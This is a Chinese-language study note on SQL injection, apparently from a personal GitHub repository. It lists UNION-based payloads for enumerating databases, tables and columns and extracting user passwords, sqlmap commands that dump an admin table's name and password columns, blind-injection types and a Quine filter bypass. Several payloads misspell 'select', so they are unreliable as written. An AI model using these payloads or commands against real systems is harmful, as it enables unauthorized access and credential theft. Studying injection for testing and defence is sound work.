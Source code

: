 # SQL注入

### SQL基础
* RDBMS关系型数据库管理系统 库-表-列-行


### 注入
#### 有回显
* `SELECT first_name, last_name FROM users WHERE user_id = '` +`1' or '1234' = '1234` + `'` 有趣的事情发生了，这条注入后的查询语句可以查询所有id的用户
* `...` + `1' or 1=1 order by 3 #` + `'`猜解sql查询语句中的字段数,巧妙地使注入符合语法，以字段3排序，若失败则只有3-1=2列
* `1' union select 1,2 #` 联合查询
* `1' union select 1,database() #` 查询数据库名 
* `1' union selcet 1, group_concat(table_name) from information_schema.tables where table_schema=database() #` 查询当前数据库的表名
* `1'and 1=2 union selcet 1,group_concat(column_name) from information_schema.columns where table_name='users' #` 获取表中字段名，1=2使第一个查询失效，或者使用limit
* `1'and 1=2 union selcet group_concat(user_id, first_name, last_name),group_concat(password) from users #` 查询数据

* 报错注入构造错误信息获取内容
  * xpath
  * extractvalue()
#### sqlmap
* `sqlmap -h` 帮助文档
* `sqlmap -u http://xxx.com/1.php?id＝11 --dbs` 查看数据库名
* `sqlmap -u http://xxx.com/1.php?id＝11 --current-db` 当前数据库信息
* `sqlmap -u http://xxx.com/1.php?id＝11 -D a --tables` 当前数据库信息，'a' 为指定数据库名称
* `sqlmap -u http://xxx.com/1.php?id＝11 -D a -T admin --columns` 列出指定表名的所有列名，'admin' 为指定表名称
* `sqlmap -u http://xxx.com/1.php?id＝11 -D a -T admin -C name,password --dump` 输出表名指定列名字段的值数据，'name，password' 为指定字段名称

#### 无回显
* 布尔盲注-回显不同
* 时间盲注-响应时间不同
* 报错盲注


### 注入类型
#### 整型

#### 字符型

#### Quine
* 神奇的自产生程序
* 利用`replace`和Quine在sql注入中可以使得输入的数据和被重写的数据是一个值，用于绕过一些检测